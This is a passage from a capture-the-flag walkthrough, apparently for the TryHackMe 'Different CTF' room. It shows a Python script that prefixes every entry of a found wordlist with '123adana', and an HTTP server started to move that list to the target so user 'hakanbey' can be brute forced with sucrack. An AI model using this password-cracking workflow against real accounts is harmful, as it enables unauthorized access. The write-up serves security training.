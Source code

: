 Also, we found a wordlsit in `/announcements/wordlist.txt`

**Armed with above information, we can modify the wordlist via appending the `123adana` prefix.**

**To do so, I'll write a simple Python script:**
```py
#!/usr/bin/env python3

class Modifier:
    def __init__(self, originalWordlist, modifiedWordlist, passwordPrefix):
        self.originalWordlist = originalWordlist
        self.modifiedWordlist = modifiedWordlist
        self.passwordPrefix = passwordPrefix

    def modifyWordlist(self):
        # Read original wordlist file's content
        with open(self.originalWordlist, 'r') as originalWordlist:
            for line in originalWordlist:
                wordlistString = line.strip()

                # Append the password prefix to original wordlist file
                with open(self.modifiedWordlist, 'a') as modifiedWordlist:
                    modifiedWordlist.write(f'{self.passwordPrefix}{wordlistString}\n')

def main():
    originalWordlist = 'wordlist.txt'
    modifiedWordlist = 'modified_wordlist.txt'
    passwordPrefix = '123adana'
    modifier = Modifier(originalWordlist, modifiedWordlist, passwordPrefix)

    modifier.modifyWordlist()

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|10:05:51(HKT)]
└> python3 modify_wordlist.py
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|10:06:04(HKT)]
└> head -n 5 modified_wordlist.txt 
123adana123456
123adana12345
123adana123456789
123adanapassword
123adanailoveyou
```

**Finally, we can transfer the modified wordlist to the target machine, and brute force user `hakanbey` via `sucrack`:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|10:06:36(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

